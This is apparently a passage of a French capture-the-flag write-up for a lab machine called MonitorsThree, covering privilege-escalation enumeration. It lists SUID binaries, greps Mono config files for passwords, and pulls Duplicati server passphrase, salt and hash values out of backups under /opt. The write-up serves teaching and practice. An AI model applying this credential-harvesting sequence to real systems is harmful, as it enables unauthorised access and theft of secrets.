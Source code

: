 ```bash
-rwsr-xr-x 1 root root 40K Feb  6  2024 /usr/bin/newgrp  --->  HP-UX_10.20  
-rwsr-xr-x 1 root root 55K Apr  9 15:32 /usr/bin/su  
-rwsr-xr-x 1 root root 44K Feb  6  2024 /usr/bin/chsh  
-rwsr-xr-x 1 root root 19K Feb 26  2022 /usr/libexec/polkit-agent-helper-1
```

J'ai décidé de fouiller les fichiers de configuration du framework mono

```bash
marcus@monitorsthree:/ cd /etc/mono
marcus@monitorsthree:/etc/mono$ egrep -r "password" ./*  
./2.0/web.config: <!--<user name="gonzalo" password="gonz"/>-->  
./4.0/web.config: <!--<user name="gonzalo" password="gonz"/>-->  
./4.5/web.config: <!--<user name="gonzalo" password="gonz"/>-->  
marcus@monitorsthree:/etc/mono$
```

Sinon dans /opt/ il y a un dossier ./backups/cacti

```bash
marcus@monitorsthree:/opt/backups/cacti$ ls -l  
total 20112  
-rw-r--r-- 1 root root   172507 May 26 16:29 duplicati-20240526T162923Z.dlist.zip  
-rw-r--r-- 1 root root   172088 Aug 20 11:30 duplicati-20240820T113028Z.dlist.zip  
-rw-r--r-- 1 root root   172086 Sep 17 21:49 duplicati-20240917T214938Z.dlist.zip  
-rw-r--r-- 1 root root   171326 Sep 18 11:00 duplicati-20240918T110000Z.dlist.zip  
-rw-r--r-- 1 root root   171461 Sep 19 11:00 duplicati-20240919T110000Z.dlist.zip  
-rw-r--r-- 1 root root    26394 Sep 19 11:00 duplicati-b01a0d01fdb3b4fc4bab0cfabb03336d1.dblock.zip  
-rw-r--r-- 1 root root    18548 Sep 18 11:00 duplicati-b72c6bd2a13ab4f2dbb7ff917696e8550.dblock.zip  
-rw-r--r-- 1 root root 19423816 May 26 16:29 duplicati-bb19cdec32e5341b7a9b5d706407e60eb.dblock.zip  
-rw-r--r-- 1 root root    25004 Aug 20 11:30 duplicati-bc2d8d70b8eb74c4ea21235385840e608.dblock.zip  
-rw-r--r-- 1 root root    10869 Sep 17 21:49 duplicati-bdab8487d17d945b9bf84ade5f001930f.dblock.zip  
-rw-r--r-- 1 root root     1266 Sep 17 21:49 duplicati-i680a4341c4224bd09f85284bbd6f00cb.dindex.zip  
-rw-r--r-- 1 root root     2493 Aug 20 11:30 duplicati-i7329b8d56a284479bade001406b5dec4.dindex.zip  
-rw-r--r-- 1 root root     1381 Sep 19 11:00 duplicati-icbf94cb6e08c4a5d8c276b76e3d56240.dindex.zip  
-rw-r--r-- 1 root root   185083 May 26 16:29 duplicati-ie7ca520ceb6b4ae081f78324e10b7b85.dindex.zip  
-rw-r--r-- 1 root root     1522 Sep 18 11:00 duplicati-if1512e0221f84b9bb41b8c4c951f627d.dindex.zip
```

On trouve ceci dans les backups qu'il y avait dans /opt

```sql
server-passphrase-trayicon-hashFJRGVBGSUj4vNdsDqCB5DTSJEjlupzCCppj/rcwdb5A=D@  
server-passphrase-trayiconb0225072-8450-41f1-85f7-7d3fab82319fH?  
server-passphrase-saltxTfykWV1dATpFZvPhClEJLJzYA5A4L74hX7FK8XmY0I=C>  
server-passphraseWb6e855L3sN9LTaCuwPXuautswTIQbekmMAr7BrK2Ho=
```
